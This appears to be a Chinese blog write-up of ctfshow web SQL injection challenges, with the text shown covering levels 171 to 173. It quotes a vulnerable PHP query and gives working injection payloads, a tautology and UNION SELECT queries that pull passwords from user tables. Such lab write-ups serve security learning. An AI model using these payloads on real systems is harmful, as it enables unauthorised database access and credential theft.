 ```yaml
---
title: ctfshow web sql注入171-253
date: 2024-05-22 14:55:12
permalink: /pages/e9d443/
categories:
  - wp
tags:
  - ctf
  - SQL注入
  - ctfshow
  - wp
author: 
  name: the0n3
  link: https://the0n3.top
---
```

# ctfshow web sql注入171-253

参考:

- [ fushulingのblog](https://fushuling.com/index.php/2023/08/20/ctfshow%E5%88%B7%E9%A2%98%E8%AE%B0%E5%BD%95%E6%8C%81%E7%BB%AD%E6%9B%B4%E6%96%B0%E4%B8%AD/)
- [ctfshow web入门 sql注入(超详解)201-250](https://blog.csdn.net/qq_50589021/article/details/119861887)

## web 171

```php
$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;"
```

字符型注入。没有过滤，直接万能密码

```
1' or '1'='1
```

## web 172

用户名过滤了'flag'，flag的值在password字段里，联合查询

```
-1'union select 1,password from ctfshow_user2%23
```

## web 173

查询结果不能有flag，flag是username字段里的值，不查username就可以了。注意这题三个参数

```
1'union select 1,2,password from ctfshow_user3%23 
```

